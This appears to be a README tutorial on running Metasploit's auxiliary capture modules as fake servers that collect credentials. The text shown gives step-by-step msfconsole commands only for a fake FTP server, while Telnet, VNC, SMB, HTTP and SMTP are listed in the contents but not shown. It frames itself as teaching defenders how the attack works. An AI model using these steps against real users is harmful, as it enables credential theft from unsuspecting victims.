 # Metasploit_Fake_services
# Capturing FTP Credentials with Metasploit

This repository contains a detailed guide on using the Metasploit framework to capture credentials by setting up fake servers for various protocols. The goal is to demonstrate how attackers can use Metasploit's auxiliary modules to gather credentials and how defenders can understand and mitigate such attacks.

## Table of Contents

- [Introduction](#introduction)
- [Requirements](#requirements)
- [Setup](#setup)
- [Configuration](#configuration)
- [Exploitation](#exploitation)
- [Verification](#verification)
- [Using Metasploit for Different Services](#using-metasploit-for-different-services)
  - [Telnet](#telnet)
  - [VNC](#vnc)
  - [SMB](#smb)
  - [HTTP Basic](#http-basic)
  - [SMTP](#smtp)
- [Security Considerations](#security-considerations)
- [Contributing](#contributing)
- [License](#license)

## Introduction

This guide explains how to use Metasploit's auxiliary modules to set up fake servers and capture credentials from unsuspecting victims. The process includes configuring the Metasploit modules, launching the fake servers, and using various tools to test the setup.

## Requirements

- Metasploit Framework installed
- Kali Linux or any Linux distribution with Metasploit
- Basic understanding of various network protocols and Metasploit

## Setup

1. **Install Metasploit Framework** (if not already installed):

    ```bash
    sudo apt update
    sudo apt install metasploit-framework
    ```
2. **Start Metasploit Console**:

    ```bash
    msfconsole
    ```
    ## Configuration

### FTP

1. **Select the FTP Capture Module**:

    ```bash
    use auxiliary/server/capture/ftp
    ```

2. **Set the Server Host**:

    ```bash
    set SRVHOST 192.168.23.128
    ```

3. **Set a Custom Banner**:

    ```bash
    set BANNER "Welcome"
    ```

4. **Launch the Fake FTP Server**:

    ```bash
    exploit
    ```


